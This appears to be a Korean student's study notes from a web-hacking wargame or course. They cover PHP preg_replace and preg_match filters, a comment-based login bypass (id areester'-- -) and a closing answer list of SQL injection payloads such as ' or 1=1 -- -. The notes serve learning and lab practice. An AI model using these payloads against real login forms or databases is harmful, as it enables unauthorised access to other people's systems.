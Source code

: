 /admin/ => admin 이라는 단어를 
i => 대소문자를 구분하지 않게 보겠다
/admin/i -----> Admin, ADMiN, aDmIN 등등 다 ㄱㅊ
```  
replacement 변수에는 ""(공백)    

newSearchValue 변수의 preg_repalce 함수를 이해해야 한다.   
preg_replace 함수
```
preg_replace() 함수는 문자열 내에서 정규 표현식을 사용하여 특정 패턴을 찾아 다른 문자열로 바꾸는(대체하는) 함수

preg_replace($pattern, $replacement, $input)
input 변수 안에 pattern 변수가 존재한다면 replacement 변수로 바꾼다.
```
pattern 변수
searchValue 


newSearchValue 



---
#### SQL 공부    
w3schools sql 검색해서 공부먼저 하고 있으세요

싱글쿼터를 넣고 뒤에 '--'을 넣는다면 뒤에 코드를 주석처리하기에 무효화 된다.

그럼 Response:200 주거나   
404, 500 등 여러 에러 코드를 넘겨준다

select id, pw from user where id='arrester' and pw=''    
id 부분에 ```areester'-- -``` 입력     
pw 부분의 인증 쿼리부분을 주석처리 시킴   
-> id값만 체크하고 결과 반환

---
### 4번 문제

![4mission](4mission.png)

$con = con();    
```
DB연결
```
if(preg_match('/lecture|_|\.|\(\)|or|and/i', $_GET['id'])) exit("Detected!");
```
testasdasdsadsad
```
---
### SQL Injection (Answer)

```
or 1=1 -- -
' or 1=1 -- -
" or 1=1 -- -
' or'1'='1
'and 1>1 -- -
'and 1=1 -- -
" and 1=1 -- -
|| 1=1 -- -
|| 1>1 -- -
```
![sqli](sqli1.png)
```